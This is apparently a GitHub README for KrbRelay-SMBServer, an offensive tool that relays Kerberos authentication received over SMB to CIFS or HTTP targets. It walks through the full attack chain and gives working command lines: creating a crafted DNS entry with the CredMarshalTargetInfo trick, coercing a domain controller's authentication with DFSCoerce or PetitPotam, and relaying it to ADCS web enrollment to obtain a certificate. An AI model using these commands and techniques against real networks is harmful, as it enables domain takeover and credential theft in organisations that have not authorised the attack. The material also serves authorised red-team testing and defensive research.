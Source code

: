 # KrbRelay-SMBServer

This krbrelay version acts as an SMB server (instead of DCOM) to relay Kerberos AP-REQ to CIFS or HTTP. <br>
It's 90% based on @cube0x0's KrbRelay:  https://github.com/cube0x0/KrbRelay<br><br>
To control the SPN for relaying, James Forshaw's *CredMarshalTargetInfo()* trick is required: https://googleprojectzero.blogspot.com/2021/10/using-kerberos-for-authentication-relay.html<br><br>

Create a DNS entry for the target server as *<server_name>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA* mapped to your listener/relay IP. <br>
Domain users can typically perform secure DNS updates, for example you can use powershell script *invoke-dnsupdate* (https://github.com/Kevin-Robertson/Powermad) for adding a DNS entry<br><br>

Trigger the SMB authentication with a third-party tool, for example  DFSCoerce https://github.com/Wh04m1001/DFSCoerce,  PetitPotam https://github.com/topotam/PetitPotam , etc... and relay it to the attacker machine.<br><br>
Given that SMB port is 445 you have two options on the Windows attacker machine:<br>
* use a Linux box acting as redirector
* disable the SERVER serice on your Windows machine
<br><br>


This is a quick & dirty adaptation from original project, leaving cleanup and optimization to you  ;)
<br>
### Examples

````
# Relay the DC SMB authentication to HTTP (ADCS) web enrollment and request client certificate using a linux box redirecting to windows attacker machine on port 9999:<br>
krbRelay.exe -spn http/adcs-mylab.mylab.local -redirecthost adcs-mylab1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA -endpoint certsrv  -adcs DomainController -listenerport 9999<br>
In another window:
DFSCoerce.exe -l adcs-mylab1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA  -t DC-2
(https://github.com/decoder-it/DFSCoerce-exe-2)

# special command line switches:
-listener: relay listener port
-redirector: relay server/redirector  mapped to the sepcial DNS entry <server_name>1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAwbEAYBAAAA
For detailed usage and command line switches refer to original krbrelay tool
````

<img width="1036" alt="Screenshot 2024-10-04 135731" src="https://github.com/user-attachments/assets/e2f95aa4-6c94-4517-b6c8-d7629a19a9f4">
<img width="1001" alt="Screenshot 2024-10-04 141231" src="https://github.com/user-attachments/assets/fd7bb972-0942-48d9-b99b-ba623f2823b0">
